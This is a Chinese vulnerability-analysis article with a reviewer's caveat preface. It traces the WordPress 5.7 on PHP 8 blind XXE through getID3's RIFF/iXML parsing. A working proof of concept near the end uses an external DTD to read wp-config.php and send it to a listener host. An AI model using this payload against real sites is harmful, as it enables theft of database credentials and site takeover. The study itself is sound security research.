## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：WordPress5.7/PHP8.0 tested; media upload capability/nonce; libxml NOENT and outbound DTD/exfil reachability; per-branch patches

- **实验改动边界（1）**：正文称PHP8移除libxml_disable_entity_loader而前面源码注释正确说deprecated，解释内部矛盾；@仅屏蔽告警不是新增防护。以下步骤按原实验条件保留；人工改动后的行为只支持该修改环境，不用于证明未修改发行版默认可利用。

- **适用与权限边界（2）**：&lt;=5.7&amp;&amp;php8未给漏洞引入版本/维护分支，最低上传角色没明确。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（3）**：XML载荷末尾&lt;/r&gt;&gt;多一个&gt;，RIFF大小随便填的说法可能仅某解析器宽容样本，需准确长度/偏移说明。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（4）**：链接nass600/getID3未区分上游与fork；php.watch链接吞入中文解释，源码/请求大量截图。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（5）**：保留完整逆向调用链、第一次失败和样本101字节定位，不能泛化所有音频/所有支持上传点都会触发。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 分析和学习 WordPress--5-7 XXE 漏洞 - 先知社区

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9517)

0x0 前言
------

  这个洞是新爆出来的, 漏洞成因可以说是有点奇葩的，但正是这样导致很多人没发现，同时利用过程也是有一丢丢的复杂，下面是我分析和学习过程, 希望能给大家带来一点启发。

0x1 漏洞简介
--------

影响范围: WordPress <= 5.7 && php8

类型: Blind XXE

严重程度: 中高

关于 PHP8 局限范围的一些解读:

> 每个 PHP 的主要版本生命周期一般为 2 年（超过这个时间后官方不再维护更新），PHP 7.4 于 2019 年 11 月发布，作为 PHP 7 的最终版本，这意味着 PHP 7.4 要到 2022 年 11 月份才会走到它的 “生命尽头”。也就是说，到 2022 年 11 月份，所有流行的 PHP 程序都至少应该与 PHP 8 兼容，

0x2 环境搭建
--------

```
version: '3.8'
services:
  wordpress:
    container_name: wordpress-wpd
    restart: always
    image: wpdiaries/wordpress-xdebug:5.7-php8.0-apache
    ports:
      - "8010:80"
    environment:
      VIRTUAL_HOST: wordpress-test.com
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_NAME: wordpress
      WORDPRESS_DB_USER: root
      WORDPRESS_DB_PASSWORD: root
      XDEBUG_CONFIG: "remote_host=docker.for.mac.localhost idekey=PHPSTORM"
    depends_on:
      - db
    volumes:
      - /Users/xq17/工作区/研究进程/代码审计/wordpressSource:/var/www/html
    networks:
      - backend-wpd
      - frontend-wpd
  db:
    container_name: mysql-wpd
    image: mysql:8.0.20
    command: --default-authentication-plugin=mysql_native_password
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: root
      MYSQL_DATABASE: wordpress
      MYSQL_USER: root
      MYSQL_PASSWORD: root
    networks:
      - backend-wpd
networks:
  frontend-wpd:
  backend-wpd:
```

这里需要注意下, 开启调试的话, 需要手工修改下 xdebug.ini

```
# Parameters description could be found here: https://xdebug.org/docs/remote
# Also, for PhpStorm, configuration tips could be found here: https://www.jetbrains.com/help/phpstorm/configuring-xdebug.html
zend_extension=xdebug.so
xdebug.mode=debug
xdebug.log_level=7
xdebug.log="/tmp/xdebug.log"
xdebug.idekey=PHPSTORM
xdebug.max_nesting_level=1500
xdebug.connect_timeout_ms=60000
# the default port for XDebug 3 is 9003, not 9000
xdebug.client_port=9003
# The line below is commented. This is the IP of your host machine, where your IDE is installed.
# We set this IP via XDEBUG_CONFIG environment variable in docker-compose.yml instead.
xdebug.client_host=docker.for.mac.localhost
xdebug.start_with_request=yes
xdebug.discover_client_host=true
```

0x3 分析思路
--------

wordpress 发布新版本的时候会提到[安全更新](https://wordpress.org/support/wordpress-version/version-5-7-1/#security-updates)

[](../../.resource/remote/3cfe4f508a5ac5ec03ab3fdd07eb0cc5aa7c81b37e265f1c79d6eedc5df55df1.png)

这里提到了 media Library, 然后我们去 github 直接对比下代码

Compare: 5.7 <-> 5.7.1

[](../../.resource/remote/56c5d978a5a10fb78d669d02e0c17ccd7c47d787ce5828669cf3261829af9d81.png)

[](../../.resource/remote/646b6c44326880fee7ef07a74df8e85caf4ab03ffc141217bed221a408839a71.png)

0x4 漏洞分析
--------

### 0x4.1 漏洞点

```
/**
     * @param string $XMLstring
     *
     * @return array|false
     */
    public static function XML2array($XMLstring) {
        if (function_exists('simplexml_load_string') && function_exists('libxml_disable_entity_loader')) {
            if (PHP_VERSION_ID < 80000) {
                // http://websec.io/2012/08/27/Preventing-XEE-in-PHP.html
                // https://core.trac.wordpress.org/changeset/29378
                // This function has been deprecated in PHP 8.0 because in libxml 2.9.0, external entity loading is
                // disabled by default, so this function is no longer needed to protect against XXE attacks.
                $loader = libxml_disable_entity_loader(true);
            }
            $XMLobject = simplexml_load_string($XMLstring, 'SimpleXMLElement', LIBXML_NOENT);
            $return = self::SimpleXMLelement2array($XMLobject);
            if (PHP_VERSION_ID < 80000 && isset($loader)) {
                libxml_disable_entity_loader($loader);
            }
            return $return;
        }
        return false;
    }


```

说实话, 这个漏洞成因还是很简单的

如果 PHP 版本 >=8, 那么就不会调用`libxml_disable_entity_loader(true);`来禁止加载外部实体

那么最终`$XMLstring`这个参数的内容就会进入`simplexml_load_string`

```
$XMLobject = simplexml_load_string($XMLstring, 'SimpleXMLElement', LIBXML_NOENT);


```

本来 php8 的话启用的是 libxml2.9, 默认是不会加载外部实体的, 但是因为第三个参数启用了`LIBXML_NOENT`开启替换实体, 这样就会人为地修改了默认行为，从而导致了 XXE 攻击。

### 0x4.2 漏洞利用

找到了漏洞点, 并不一定说明存在漏洞，还是要找到路径到漏洞点，才能说明这是一个漏洞。

直接开始，全局搜索只有一个引用的地方

[](../../.resource/remote/ff24de8c8079a63a77b61c1f083e588dfbc6ccb29f60ce003d353b3411ed6431.png)

代码比较简洁:

`wp-includes/ID3/module.audio-video.riff.php` 426 行 `getid3_riff`类

```
if (isset($thisfile_riff_WAVE['iXML'][0]['data'])) {
                    // requires functions simplexml_load_string and get_object_vars
                    if ($parsedXML = getid3_lib::XML2array($thisfile_riff_WAVE['iXML'][0]['data'])).....
......


```

```
$thisfile_riff_WAVE['iXML'][0]['data']

```

最终会作为`XML2array`的参数传进去解析, 那么我们继续回溯下这个参数是怎么来的。

[](../../.resource/remote/bfd3569a6a69cd19897aa5c5c3e718b12167f45db68313551ff4338dfc9370e2.png)

继续查找:`$thisfile_riff`

[](../../.resource/remote/1c35d64c771050fd99b8e7de634c133b2bd8f1b25fd8b9dab51c6e04d7b46f7f.png)

然后跟上去发现是继承了父类的构造方法:

`/wp-includes/ID3/getid3.php` 1973 行

[](../../.resource/remote/2529b297194663352d8de3c3b9d234e815c826bd269e653bff2aaa09db2df898.png)

那么我们继续回溯`getid3_riff`这个类的实例化就行了。

[](../../.resource/remote/aebf991762e62528e3d974b168723ac84a3baff27ea0575c725909de46f4faf8.png)

[](../../.resource/remote/6abaecc79df93fd1795909bb39c19276c8510321380baace0894237df069f210.png)

跟到这里, 其实我已经大概知道了那个信息是来源 RIFF 数据的, 也就是说来自于音频文件的, 那么到这里我心中大概有个底了, 觉得是有机会的。

有了这个基础, 我们就可以耐着性子，开始从函数调用，层层回溯下去了。

[](../../.resource/remote/117ed8c3119208e71c96c08599e4523a5529f182eb0666abed093c4a064795ec.png)

那么只能搜索`Analyze`, 最终人眼排除 (说一下排除思路，就是要找`getid3_riff`类实例化调用的`Analyze`，不是的话就可以排除), 最终确定了两个地方。

第一个地方:

`/wp-includes/ID3/module.audio-video.riff.php` 1896 行，存在于`ParseRIFFdata`函数内

[](../../.resource/remote/b63e792938b38d4c470e00fb57bcfdaafabe920372200a0b3c0abd3946bb7662.png)

第二个地方:

`/wp-includes/ID3/getid3.php` 640 行 在`analyze`函数内部

[](../../.resource/remote/b57d81aa98954cad70012efd8b75cc36b680a87c2579165648651b29d2c31ad9.png)

然后我继续看了下`$determined_format`这个变量的来源, 看他是不是会拼接成`getid3_riff`

选中之后，这个变量就会都被选中，然后前面找赋值

[](../../.resource/remote/faacf642c27f73e55235f4fcef0e6c8ddf3a26fedf80bae1c0fbf45bf00572e5.png)

跟进这个函数`GetFileFormat`

[](../../.resource/remote/8e38cb3d007b7050a0f8de10a6eed26f7fbcdc8c2606cc933da32f5f8d775fb7.png)

这里我们可以看到返回是`$info`, 然后按照顺序，果断先从文件内容解析格式, 解析失败了再从文件名入手。

, 然后关于这个内容，都是`GetFileFormatArray`来决定的，跟进

```
public function GetFileFormatArray() {
        static $format_info = array();
        if (empty($format_info)) {
            $format_info = array(

                ...
        'riff' => array(
        'pattern'   => '^(RIFF|SDSS|FORM)',
        'group'     => 'audio-video',
        'module'    => 'riff',
        'mime_type' => 'audio/wav',
        'fail_ape'  => 'WARNING',
        ),
                ....
        }
        return $format_info;
    }


```

[](../../.resource/remote/74f3b70623d5454a1862b01fa2bb685710c81501bda72224882d830980c3992a.png)

可以看到如果文件内容满足上面规则, 那么最终是有机会调用`getid3_riff`的, 因为其中存在 module=>'riff'。

搜索调用, 同样也有两处:

[](../../.resource/remote/61cacb2c24c3bd9789eb3c15b9e0c0c354a85771faab9cb0f955f2e56885dfa7.png)

第一处:

`/wp-admin/includes/media.php` 3549 行 在 `wp_read_video_metadata`函数

[](../../.resource/remote/d1dc21e187082a14aa7a8fcf3e49d4c429e214b3c0a7bd31e0702beca15bbda6.png)

第二处:

`/wp-admin/includes/media.php` 3660 行, 在`wp_read_audio_metadata`函数

[](../../.resource/remote/9c866f675e8d8081f7a0cd1a25e7a41ad441b2c2414153ccc3b16d1f9d70ef8d.png)

那么我继续找这两个函数的调用

[](../../.resource/remote/4c8c00e8be5b6b51d3ba57c27a65d5365bbf92ea6ec1bc1f2a19240e4479f67f.png)

[](../../.resource/remote/8d0deddba1882a4577948d4a73a813385d0db2a66fbc331be241ef0db9ff5aa5.png)

这两个函数很相似，限于文章篇幅、分析思路雷同，所以这里我只选取一个函数`wp_read_audio_metadata`来分析。

第一处:

`wp-admin/includes/image.php` 489 行, `wp_generate_attachment_metadata`

[](../../.resource/remote/b2b0f90b7a7e2b3e2c281c6dfaf00d28b387cb9a4b7f02f44491b786baeca0ca.png)

第二处:

`/wp-admin/includes/media.php` 321 行 `media_handle_upload`函数内

[](../../.resource/remote/aff96e04741f2e57df222e19ab2adb01e56e28915d3b376fe8f0bfe1f8bbdff5.png)

这个代码可以说已经很直白了, 出现了`$_FILES`全局变量 (在这里，我不会去细究那些细节的实现的，我只要知道是否会经过就行了)

然后继续找这个调用

[](../../.resource/remote/0b2389edb850a8846dc63886932d7e8ecae615494bdf95e8efd2d8adbcb3e953.png)

然后找到一处:

`/wp-admin/includes/ajax-actions.php` 2549 行 `wp_ajax_upload_attachment`函数内

[](../../.resource/remote/88e41fd52047ea85065a09c449e8c4bcabbfc17d35774db9dcb5684fd9610917.png)

然后我们再找下`wp_ajax_upload_attachment`的调用点就行了。

`/wp-admin/async-upload.php` 33 行

[](../../.resource/remote/c789ee765494b5a10374db852e6459726ca4c381e57bbabb0a3e70896484b082.png)

[](../../.resource/remote/a5f5980f6f3456f1aae37103a75df48ea18e19354f5b26fdf39f04be63113c3f.png)

包含起来，然后调用这个函数, 请求`async-upload.php`页面, 然后`action=upload-attachment`, 就会调用了。

[](../../.resource/remote/0a8e20faae05facbad8d049dee3cab082b3b7e5fe915e96134065d894d587c24.png)

### 0x4.3 调试过程

随便找一个能够拖拽上传的点

[](../../.resource/remote/46be77109743d21d97b232370f00ea20b7036213af153add5d36a8524aa8757e.png)

抓包就会发现, 是符合我们的分析的, 直接开启 xdebug 跟数据流就行了。

[](../../.resource/remote/d2ea1b17fc8967931bc2f62fbd989c690462703d5177d72495cb1979091d512e.png)

断点我下在了

[](../../.resource/remote/1f80da41da8d63e104057f10161fcb1d3f8f2b1925b27c6c54e2ec72b3f375c4.png)

然后开始跟

[](../../.resource/remote/0c5f2289ca97a3a0eb1b7efb52e82c38c9779d94ffb0a2f7399dc8503a105bab.png)

这里有个小判断，可以绕过

```
Content-Disposition: form-data; 
Content-Type: audio/mpeg

```

然后也调用`finfo_file`检测文件的头几个字节来判断`$real_mime`

(这个可以自己去跟一下`wp_check_filetype_and_ext`, 做了一些文件的白名单的操作)

这里为了不必要的麻烦，我们直接去找一个现成的 mp3 文件就好了 (直接截取前面头一部分内容，emmm，蛮粗暴的)

[](../../.resource/remote/b02e3df1306105637ba9809c6c406e303a5522792f22fb563f16407f51823e89.png)

然后我们继续向下 debug:

[](../../.resource/remote/698deb4ecbce13fafe4fb31b9f8b307595088baa7a97180fb44c39913321eca6.png)

[](../../.resource/remote/1d9a9e3263ec59ce427360560fa21d88ca0dad9c328b7d7261f5026b9eb7c4a4.png)

下面来到一些关键的地方了，需要认真调试了

[](../../.resource/remote/4e3d98a0c448498a98f9a0d2a76bb01105104768ea3619fe3b1d4a27a1bebaae.png)

[](../../.resource/remote/e9fbe14861e242d2a4aa2975bf8d57cee281b93b2c4988285b849ece722d0b17.png)

[](../../.resource/remote/6d6b1b688e3418be68a4d30e60ef55e49ad944d3f54eaeaf1643db1a0a37239f.png)

这里读取了偏移 101B，32kb 大小的头部内容进去，然后这里就可以搜索`RIFF|SDSS|FORM`的数据了，emm。我们构造数据的话, 可以先大量填充，最终找到 101 个字节的位置，然后修改为 RIFF 作为开始就可以进入到关键的地方了。

[](../../.resource/remote/d389e48b1c46fea54e659f8e0df84415034e534367f6a38c585a4010d45f81e2.png)

[](../../.resource/remote/6b4f83610dea93b6909ccb55afe868c4335ff000601ce9c570aff9f3961b591b.png)

但是来到这里，我们的数据，依然是不成功的，因为要符合 getid3 库去解析 RIFF 的格式，要不然是提取不到数据的。

第一次构造如下:

[](../../.resource/remote/eaf562ffd11114490e96d5e42e8d31a65d1f212b17495ae2f7948a76eeb77fb7.png)

结果如下:

[](../../.resource/remote/883c5a47700a4b02cf938e4c044632fbab4798bde14821ebb9f398edf3e2bdf7.png)

最终进入关键的函数，结合最前面的分析，直接就是`simple_load_xml`

[](../../.resource/remote/822ff533ef127d73ddf12c960747b6edef08216fdbdc9bfc6bd127b9156e986a.png)

[](../../.resource/remote/35b5a8c9f69a25f5c945f0b29016d14dda99d3ee359a209a50282966023786aa.png)

其实一开始我是没意识到那个位置代表的是 RIFF 的数据大小的，但是肯定有代表大小的区域，且为 4 字节，我试着填 FF 就发现了。

[](../../.resource/remote/5188b49ddfbf3fa7c7b6daee0606fb6d7b8b5cddb6de34d99890f9a4871e9bcb.png)

其实格式是这样的 (感兴趣的话，可以直接跟一下解析就行了，这里直接给出我的结果):

```
RIFF|4字节随便填|WAVE|iXML|4字节代表xml内容大小|xml内容

```

### 0X4.4 构造 POC

这里因为没有回显，需要外带数据，所以可以这样构造:

```
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://docker.for.mac.localhost:8091/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>>

```

xxe.dtd

```
<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://docker.for.mac.localhost:8092/?%data;'>">

```

POC 如下:

[](../../.resource/remote/f10f04da01bf45a548dc77f094dff4bdb7b5dd0746442f500c72febb3b1bfc05.png)

结果:

[](../../.resource/remote/f10f04da01bf45a548dc77f094dff4bdb7b5dd0746442f500c72febb3b1bfc05.png)

0X5 再看漏洞成因
----------

### 0x5.1 菜鸡碎碎念

其实我觉得，上面那些枯燥分析过程没必要去看，看成因然后自己去分析，出现问题再来看我的分析过程比对就可以了。给出我对这个漏洞的具体成因的理解，其实才是最重要的。

### 0x5.2 成因

首先问题出现在了 WP 内置的第三方库:[ID3](https://github.com/nass600/getID3)

emmm, 然后，直接搜索 github，发现确实是这个库，

[https://github.com/nass600/getID3/blob/master/getid3/getid3.lib.php](https://github.com/nass600/getID3/blob/master/getid3/getid3.lib.php) 522 行，感觉也很离谱, 如果 libxml<2.9 的话，这个函数就会一样有 XXE 漏洞。

```
static function XML2array($XMLstring) {
        if (function_exists('simplexml_load_string')) {
            if (function_exists('get_object_vars')) {
                $XMLobject = simplexml_load_string($XMLstring);
                return self::SimpleXMLelement2array($XMLobject);
            }
        }
        return false;
    }

```

然后我们再看 WordPress 中的这个函数，是做了 XXE 防护的，原来在 WP3.9.2 的时候确实因为这个库导致过一次 XXE。

[](../../.resource/remote/077ab0f498163ebfee7ade5f8e5cd010e807221b34d3d6314e1545a60c757c31.png)

emm，当时做了修复:

[](../../.resource/remote/c8ad941f79384286a2c0677dd1fd328b785478cee46d5ed30f44e440fedb0247.png)

本来这样就蛮安全的了，为什么 WP 还要改呢？ 这个问题就出现在了 WP 要向 PHP8 兼容

```
$loader = libxml_disable_entity_loader( true );

```

因为`libxml_disable_entity_loader`在 PHP8 是移除的了, 这个语句是会报错的，那么作为一个优雅的开发者，怎么修改呢？ 所以我当时 google 了下。

有篇文章 [https://php.watch/versions/8.0/libxml_disable_entity_loader-deprecation, 就介绍了如何解决这个问题。](https://php.watch/versions/8.0/libxml_disable_entity_loader-deprecation,%E5%B0%B1%E4%BB%8B%E7%BB%8D%E4%BA%86%E5%A6%82%E4%BD%95%E8%A7%A3%E5%86%B3%E8%BF%99%E4%B8%AA%E9%97%AE%E9%A2%98%E3%80%82)

[](../../.resource/remote/37c4af70747433775921312c88ce182c1ba4bb0002cdf6026bdcbcf1bbf543cd.png)

emmm，是不是，然后我们回头看 WP 的代码，是不是很像，其实文章没有错，只不过，没有解释如果出现了第三个参数情况，那么默认配置不解析外部实体就会被第三个参数更改，导致了 XXE。

[](../../.resource/remote/6f4fdc5a6e9ab65b62932e77e7bbc55b091b649cb9c679fa871970db9a12c8df.png)

然后看这个注释，emmm，只能说，开发者不是神，同样是人，一个应用不可能永远没有漏洞的，这个就是一个很好的例子。

### 0x5.3 聊一下 LIBXML_NOENT

其实我对这个函数也不是很懂， 其实也不是很清楚 WP 为何执意用这个，但是查看返回值确实是存在差异的。

[](../../.resource/remote/84b215a3c4a91b24f58e84b3ec04ef534123bf2a6bcb3e72219bef0b730b9198.png)

猜想:

> 参数的作用就是在内部替换了实体，这样就不会出现实体节点，这样解析下来遇到实体的话就需要解析，底层实现的时候，解析到外部实体，所以可以导致 XXE。

所以有时候这个参数是可以在一定程度简化代码的，但是要禁止外部实体的解析，我们依然要跟 WP 那样，加多一个 @，屏蔽错误，这个操作依然是有效去防范 xxe 攻击加载外部实体的。

```
$loader = @libxml_disable_entity_loader(true);


```

不过官方提到这个参数, 说如果需要使用内部实体解析的时候，那就需要带上第三个参数。

[](../../.resource/remote/1c408f56359c61adbaf59ceebf936a037906fb2fd716975a93999795090a15f8.png)

很迷，感觉这个说话不算很可靠，就算不需要这个，也是能解析内部实体的，希望有师傅能从开发角度说说差异。

0x6 总结
------

  文章从漏洞基本情况，环境搭建，分析思路，具体分析过程到成因分析，基本还原了笔者学习一个新漏洞的过程。其中可以发现，笔者更偏向于模拟漏洞发现者的思路开始回溯分析 (未知)，而不是 poc->debug(已知), 因为这样的模式可以让笔者印象更加深刻，也能发现更多的利用点。

  关于本文还是有些遗憾的地方，就是还有很多触发点没去分析，目前的话，基本可以确定调用 ID3 库的 analy 函数的话就可以攻击，范围更小一点就是支持上传的点也可能可以，然后衍生下思路，一些 wp 的插件如果引用这个功能的话，那么也会 XXE。欢迎师傅们继续深入研究，产出更多 0day。

0x7 参考链接
--------

[WordPress 5.7 XXE Vulnerability](https://blog.sonarsource.com/wordpress-xxe-security-vulnerability/?utm_source=twitter&utm_medium=social&utm_campaign=wordpress&utm_content=security&utm_term=mofu)

[Docker+PhpStorm 远程调试 php](http://badaozhenjun.com/posts/2077109e/)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
